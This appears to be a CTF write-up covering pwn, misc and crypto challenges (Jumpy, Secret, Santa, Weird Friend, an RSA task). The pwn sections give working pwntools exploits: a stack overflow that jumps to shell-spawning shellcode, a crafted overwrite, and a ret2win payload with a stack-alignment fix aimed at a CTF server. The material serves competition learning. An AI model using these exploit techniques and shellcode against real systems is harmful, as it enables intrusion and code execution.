


JUMPY (Pwn)
File:
here
Output of checksec
$checksec jumpy


C code of Jumpy:

The NX is disabled so we can run on the stack.
In the binary there is no system function or any function to read the flag, so the shellcode.
First of all, we must control the RIP.
I placed a breakpoint at the ret for debugging.

With 0x38 we reach the RIP: "A"*0x38 + "BBBB"

We can now execute our shellcode on the stack.
Wait a minute!
The RIP must contain an address (the address of our shellcode) and not the shellcode.
I found a np function in the binary to make it easier for us.

This function will allow us to execute our shellcode.
Just push the np address in the RIP and our shellcode after.
np address: 0x00401142
from pwn import *
sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*(48+8) + p64(0x00401142) +shellcode
print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
Output

SECRET (Pwn)
File:
here

from pwn import *
sh = process("./secret")
print(sh.recv().decode())
sh.sendline(p32(0xaabbccdd)*2)
print(sh.recvall().decode())
Output

SANTA (Pwn)
File:
here
Output of checksec
$checksec santa

Let's run the binary.

C code of santa:

I found a flag function

The NX is enabled so we can't run anything on the stack, but off the stack.
In this case we are going to target the RSP.
To reach the RSP: "A" * 0x38 + "BBBBBBBB"

Now we can write our exploit to run the flag function.
flag function address: 0x00401152
You can find it in gdb with the command: info functions
from pwn import *
#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)
print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
Output

But there is a concern.
When I used it on the remote server it didn't work.
Output:
[*] Got EOF while reading in interactive
Movaps stack alignment.
If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system().
Read more....
The solution is to call the ret of the other address one more time before calling the flag() function when designing the overflow stack, so that the rsp address can be reduced by 8.
I used the return address from init.
To find it: objdump santa -M intel --disassemble=_init

New exploit:
from pwn import *
sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)
print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
WEIRD FRIEND (MISC)
File:
here
I use
strong-qr-decoder.
c = open("weird_friend.txt").read().strip()
flag,out = ('','')
for i in c:
flag += i
if len(flag) == 29:
out += flag+"\n"
flag=""
open("qr.txt","w").write(out)
Output:

AM I DOING IT RIGHT? (Crypto)
File:
here
Premierly, I wanted to use RSACTFTOOL to find D but it did not work.

So I recover the N and the E with RSACTFTOOL.

I used some tools to retrieve the p, q and d but it does not work until I tried RSa-Cipher on Dcode: https://www.dcode.fr/rsa-cipher


And bingo, I have the p, q and d.
So I wrote a Python script to decrypted the chall.enc file.
from Crypto.Util.number import long_to_bytes,bytes_to_long
c = open("chall.enc","rb").read()
c = bytes_to_long(c)
n = 17729028558979019485846420034614601781855286885772116033115998289130663218793249135103097941406615594783564487056148202535602218241261076180277862184340050681277512936764254998557657989633659561175844653871375735119626199870178796372816549333367076487655787617921785826120525919291798195591267544750350222858119219959311035913906885739352404726672836723117136379411134589884489391116922923390687958161705756705708668649262568471831705504852664779788943978721769038284989250803324876493071615384204553854811020877754034576798208169454695001947778015807032019651748938505463608871771494765303144219873993106068807291321
e = 65537
d = 3500250248327349941672136790330322298173940781772211260089535710561387481696840724462501857940708289682233561164220235784490548878094466708830359320737536288891004163888989356033042963942046798938832323366063912548832619743354798758989171488234685790832327326369684099122228433857463369589017055427083655546629869448560863558252541573729181294198925126252806108158471450212498376272391643662951937867203907881541852521739527440641096867158947718038717211827677824862115138300242300421747601306316869658769565879739394458142873158790249493313154357342610957929927393333582078957693189916431285660748179207993771566093
m = pow(c,d,n)
print(long_to_bytes(m))
Output